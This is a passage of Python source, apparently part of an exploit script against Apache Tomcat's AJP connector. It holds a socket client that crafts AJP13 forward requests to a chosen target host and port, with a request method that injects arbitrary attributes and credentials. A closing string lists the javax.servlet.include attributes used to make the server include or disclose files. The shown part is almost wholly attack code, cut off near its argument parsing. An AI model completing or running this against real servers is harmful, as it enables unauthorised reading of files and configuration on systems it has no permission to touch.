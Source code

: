 ```python
	fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)
	fr.method = method
	fr.protocol = "HTTP/1.1"
	fr.req_uri = req_uri
	fr.remote_addr = target_host
	fr.remote_host = None
	fr.server_name = target_host
	fr.server_port = 80
	fr.request_headers = {
		'SC_REQ_ACCEPT': 'text/html',
		'SC_REQ_CONNECTION': 'keep-alive',
		'SC_REQ_CONTENT_LENGTH': '0',
		'SC_REQ_HOST': target_host,
		'SC_REQ_USER_AGENT': 'Mozilla',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'en-US,en;q=0.5',
		'Upgrade-Insecure-Requests': '1',
		'Cache-Control': 'max-age=0'
	}
	fr.is_ssl = False
	fr.attributes = []
	return fr

class Tomcat(object):
	def __init__(self, target_host, target_port):
		self.target_host = target_host
		self.target_port = target_port

		self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
		self.socket.connect((target_host, target_port))
		self.stream = self.socket.makefile("rb", bufsize=0)

	def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
		self.req_uri = req_uri
		self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
		print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
		if user is not None and password is not None:
			self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
		for h in headers:
			self.forward_request.request_headers[h] = headers[h]
		for a in attributes:
			self.forward_request.attributes.append(a)
		responses = self.forward_request.send_and_receive(self.socket, self.stream)
		if len(responses) == 0:
			return None, None
		snd_hdrs_res = responses[0]
		data_res = responses[1:-1]
		if len(data_res) == 0:
			print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
		return snd_hdrs_res, data_res

'''
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
'''

import argparse
```